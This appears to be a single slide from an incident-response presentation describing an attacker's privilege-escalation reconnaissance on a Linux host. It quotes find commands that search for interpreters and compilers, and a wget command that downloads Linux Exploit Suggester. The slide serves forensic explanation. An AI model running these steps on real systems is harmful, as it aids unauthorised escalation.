

# ⿣ PRIVILEGE ESCALATION RECONNAISSANCE
The attacker searched for binaries useful for escalation:
find / -name perl
find / -name python
find / -name gcc
find / -name cc

They also downloaded Linux Exploit Suggester to identify vulnerable privilege escalation paths:
wget https://raw.githubusercontent.com/Azzt.../linux-exploit-suggester/master/linux-exploit-suggester.sh